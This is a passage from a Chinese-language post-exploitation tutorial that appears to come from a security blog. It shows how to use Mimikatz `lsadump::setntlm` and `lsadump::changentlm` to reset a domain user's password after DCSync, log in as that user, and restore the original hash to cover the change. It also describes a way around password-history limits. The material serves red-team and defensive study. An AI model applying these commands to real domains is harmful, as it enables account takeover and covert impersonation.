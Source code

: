 假设我们此时拿到域控，想修改域内用户`ntlmtest`的密码来登录某系统，先Dcsync看一下用户当前的hash：

[![](https://p0.ssl.qhimg.com/t01ee0f7772ecf2a833.png)](https://p0.ssl.qhimg.com/t01ee0f7772ecf2a833.png)

由于我们是域管了，基本上对目标用户都是有重置密码权限的，然后利用以下命令重置密码：

```
lsadump::setntlm /server:&lt;DC's_IP_or_FQDN&gt; /user:&lt;username&gt; /password:&lt;new_password&gt;
```

[![](https://p3.ssl.qhimg.com/t01d2a00b59829414c6.png)](https://p3.ssl.qhimg.com/t01d2a00b59829414c6.png)

登录目标系统以后，再通过以下命令还原密码：

```
lsadump::setntlm /server:&lt;DC's_IP_or_FQDN&gt; /user:&lt;username&gt; /ntlm:&lt;Original_Hash&gt;
```

[![](https://p3.ssl.qhimg.com/t01f47cec7305549f7f.png)](https://p3.ssl.qhimg.com/t01f47cec7305549f7f.png)

### <a class="reference-link" name="2.%20ChangeNTLM"></a>2. ChangeNTLM

#### <a class="reference-link" name="(1)%20%E5%88%A9%E7%94%A8%E6%9D%A1%E4%BB%B6"></a>(1) 利用条件

需要对目标用户有`Change Password`权限，但该权限一般是`Everyone`拥有的，所以基本上拿到目标用户的hash/密码后都可以进行密码更改

[![](https://p4.ssl.qhimg.com/t012dd34fb3341ac4c3.png)](https://p4.ssl.qhimg.com/t012dd34fb3341ac4c3.png)

（注意此处的更改密码权限并不是说可以直接任意改用户密码，而是在知道用户的密码的情况下更改一个新密码）

该方法受到域内密码策略的限制，比如域内默认的**“密码最短使用期限”**为1天，因此用户每天只能修改一次自己的密码

而且如果域内存在**“强制密码历史”**规则时，该方法在恢复原密码时便不能成功，但如果没有**“密码最短使用期限”**的限制的话，我们多修改几次密码直到原密码在历史中清除，然后再修改为原密码即可

[![](https://p4.ssl.qhimg.com/t015105183efc29dd2f.png)](https://p4.ssl.qhimg.com/t015105183efc29dd2f.png)

#### <a class="reference-link" name="(2)%20Demo"></a>(2) Demo

修改用户test2密码：

```
lsadump::changentlm /server:&lt;DC's_IP_or_FQDN&gt; /user:&lt;username&gt; /old:&lt;current_hash&gt; /newpassword:&lt;newpassword&gt;
```

[![](https://p1.ssl.qhimg.com/t01ebe80c4f1d701e07.png)](https://p1.ssl.qhimg.com/t01ebe80c4f1d701e07.png)

恢复原密码：

```
lsadump::changentlm /server:&lt;DC's_IP_or_FQDN&gt; /user:&lt;username&gt; /oldpassword:&lt;current_password_plain_text&gt; /new:&lt;original_hash&gt;
```
